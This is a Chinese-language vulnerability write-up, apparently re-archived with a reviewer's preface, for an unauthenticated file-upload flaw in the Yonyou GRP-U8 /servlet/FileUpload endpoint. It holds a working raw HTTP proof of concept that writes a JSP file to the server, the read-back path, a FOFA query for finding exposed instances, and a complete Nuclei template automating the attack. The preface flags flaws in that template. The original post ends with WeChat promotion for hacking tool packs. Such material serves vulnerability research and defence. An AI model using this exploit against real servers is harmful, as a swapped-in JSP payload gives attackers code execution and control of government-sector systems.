






# 用友GRP-U8 servlet/FileUpload文件上传

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：用友GRP-U8；servlet/FileUpload文件上传
- 版本、配置及部署条件：无版本
- 认证与权限前提：声明未认证，响应新session
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- HTTP及Nuclei raw均缺头体空行，模板花括号被反斜线污染
- max-request1却两次raw请求，verified true是作者标记不是本审查验证
- 有200空响应和回读路径，须JSP解析标记去除源码回显误判
- FOFA元数据搜索语句错误，无修复build

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/na0n6QC-8DDo0Z0FRpudYg)

免责申明：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

**有朋友说没收到推文，给公众号标星就能解决这个问题了。  
**



**福利：小编整理了大量电子书和护网常用工具，在文末免费获取。**

01

—

漏洞名称

用友 GRP-U8 FileUpload 文件上传漏洞

02

—  

漏洞影响

用友 GRP-U8


03

—  

漏洞描述

用友 GRP-U8 行政事业内控管理软件是一款专门针对行政事业单位开发的内部控制管理系统，旨在提高内部控制的效率和准确性。该软件 /servlet/FileUpload 接口存在文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

04

—  

FOFA 搜索语句

  

```
app="用友-GRP-U8"

```



05

—  

漏洞复现

向靶场发送如下 POC 数据包，其中 ccsxxzjx.jsp 为文件名，frijcdiyuaqkgwvodnks 为文件内容

```http
POST /servlet/FileUpload?fileName=ccsxxzjx.jsp&actionID=update HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Length: 43
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
<% out.println("frijcdiyuaqkgwvodnks");%>

```

响应内容如下

```
HTTP/1.1 200 OK
Connection: close
Content-Length: 0
Content-Type: text/html;charset=GBK
Date: Mon, 25 Dec 2023 05:43:29 GMT
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=57DCB2652D1FA7BB1E082D13BEEC0342; Path=/

```

查看回显文件  

```
http://x.x.x.x/R9iPortal/upload/ccsxxzjx.jsp

```



漏洞复现成功

06

—  

nuclei poc

poc 文件内容如下

```
id: yonyou-grp-u8-fileupload-fileupload
info:
  name: 用友GRP-U8 FileUpload 文件上传漏洞
  author: fgz
  severity: critical
  description: 用友GRP-U8行政事业内控管理软件是一款专门针对行政事业单位开发的内部控制管理系统，旨在提高内部控制的效率和准确性。该软件/servlet/FileUpload接口存在文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。
  metadata:
    max-request: 1
    fofa-query: app="用友-GRP-U8"
    verified: true
variables:
  file_name: "\{\{to_lower(rand_text_alpha(8))\}\}"
  file_content: "\{\{to_lower(rand_text_alpha(20))\}\}"
requests:
  - raw:
      - |+
        POST /servlet/FileUpload?fileName=\{\{file_name\}\}.jsp&actionID=update HTTP/1.1
        Host: \{\{Hostname\}\}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Connection: close
        <% out.println("\{\{file_content\}\}");%>
      - |
        GET /R9iPortal/upload/\{\{file_name\}\}.jsp HTTP/1.1
        Host: \{\{Hostname\}\}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip
    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200 && contains(body_2, '\{\{file_content\}\}')"

```

运行 POC

```
nuclei.exe -t yonyou-grp-u8-fileupload-fileupload.yaml -u http://192.168.30.102:112

```



07

—  

修复建议

升级到最新版本。

08

—  

福利领取

关注公众号，在公众号主页点发消息发送关键字免费领取。

后台发送【**工具**】获取渗透工具包



后台发送【**电子书**】获取电子书资源包



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
